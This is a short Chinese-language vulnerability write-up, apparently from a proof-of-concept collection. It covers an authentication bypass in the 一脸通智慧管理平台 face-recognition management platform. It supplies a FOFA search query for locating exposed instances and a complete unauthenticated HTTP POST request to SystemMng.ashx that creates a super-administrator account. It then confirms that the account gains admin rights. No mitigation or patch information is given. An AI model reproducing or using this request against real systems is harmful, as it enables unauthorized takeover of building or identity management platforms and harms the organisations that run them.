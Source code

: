 # 一脸通智慧管理平台权限绕过漏洞

## 1.漏洞描述

一脸通智慧管理平台1.0.55.0.0.1及其以下版本SystemMng.ashx接口处存在权限绕过漏洞，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户。

## 2.搜索语法

```plain
fofa：title="欢迎使用脸爱云 一脸通智慧管理平台"
```

## 3.漏洞复现

```plain
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Length: 174

operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![image-20240615204131021](D:\py\POC\一脸通智慧管理平台权限绕过漏洞\image-20240615204131021.png)

成功创建账号，登陆后台可以看到自己创建的账号拥有管理员权限

![image-20240615204600624](D:\py\POC\一脸通智慧管理平台权限绕过漏洞\image-20240615204600624.png)